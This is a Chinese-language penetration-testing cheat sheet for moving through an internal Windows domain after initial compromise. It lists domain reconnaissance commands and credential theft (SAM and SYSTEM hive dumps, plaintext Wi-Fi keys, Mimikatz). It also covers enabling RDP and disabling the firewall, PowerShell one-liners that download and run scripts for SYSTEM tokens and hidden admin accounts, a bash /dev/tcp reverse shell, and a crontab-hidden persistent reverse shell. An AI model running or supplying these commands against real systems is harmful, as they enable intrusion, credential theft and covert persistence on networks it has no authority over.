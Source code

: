 # 内网渗透知识点总结  
前期已经利用相关漏洞getshell
(从零学习内网渗透)https://blog.csdn.net/Fly_hps/article/details/80780989
## 信息收集
```   
    query user || qwinsta 查看当前在线用户
    net user  查看本机用户
    net user /domain 查看域用户
    net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
    net view /domain 查看有几个域
    net view \\\\dc   查看 dc 域内共享文件
    net group /domain 查看域里面的组
    net group "domain admins" /domain 查看域管
    net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管
    net group "domain controllers" /domain 域控
    net time /domain 
    net config workstation   当前登录域 - 计算机名 - 用户名
    net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
    ipconfig
    systeminfo
    tasklist /svc
    tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
    net localgroup administrators && whoami 查看当前是不是属于管理组
    netstat -ano
    nltest /dclist:xx  查看域控
    whoami /all 查看 Mandatory Label uac 级别和 sid 号
    net sessoin 查看远程连接 session (需要管理权限)
    net share     共享目录
    cmdkey /l   查看保存登陆凭证
    echo %logonserver%  查看登陆域
    spn –l administrator spn 记录
    set  环境变量
    dsquery server - 查找目录中的 AD DC/LDS 实例
    dsquery user - 查找目录中的用户
    dsquery computer 查询所有计算机名称 windows 2003
    dir /s *.exe 查找指定目录下及子目录下没隐藏文件
    arp -a
```
## 密码脱取工具 和 相关命令
### Mimikatz
命令使用:https://www.cnblogs.com/pursuitofacm/p/6704219.html?utm_source=itdadao&utm_medium=referral</br>
开启绕过:https://www.freebuf.com/articles/web/176796.html</br>
Mimikatz小实验：黄金票据+dcsync https://www.freebuf.com/sectool/112594.html</br>
### NetPass
下载https://www.nirsoft.net/utils/network_password_recovery.html</br>
### 相关命令
```
    netsh wlan show profile 	查处 wifi 名
    netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理
    
    reg save hklm\sam C:\hash\sam.hive
    reg save hklm\system C:\hash\system.hive  直接执行可以把windows里所有用户的hash在注册表中导出到文件里

    reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet Settings" /v ProxyServer
    reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理相关

```
## 其他常用命令
```
    ping       icmp 连通性
    nslookup www.baidu.com vps-ip dns 连通性
    dig @vps-ip www.baidu.com
    curl vps:8080  http 连通性
    tracert bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
    fuser -nv tcp 80 查看端口 pid
    rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
    where file win 查找文件是否存在 找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
    netstat -apn | grep 8888   kill -9 PID   查看端口并 kill
```
## 远程登录主机
### 端口查看
```
    netstat -ano   没有开启 3389 端口,复查下
    tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.
```
### 注册表开启3389
```
    REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
    REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f 开启3389
    
如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:
    netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
关闭防火墙
    netsh firewall set opmode mode=disable
```
还是无法添加:    3389user http://www.91ri.org/5866.html </br>
### 创建用户(隐藏)
```
开启 sys 权限 cmd:
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'
add user 并隐藏:
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
```
Windows 系统的帐户隐藏 ： https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/ </br>
windows 的 RDP 连接记录:    http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95 </br>

## linux bash 
```
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`bash -i
    ` 交互的 shell 
    `&` 标准错误输出到标准输出
    `/dev/tcp/10.0.0.1/8080` 建立 socket ip port
    `0>&1` 标准输入到标准输出

猥琐版
    (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
```
详细介绍 https://github.com/tom0li/security_circle/blob/master/15288418585142.md </br>
未完待续...
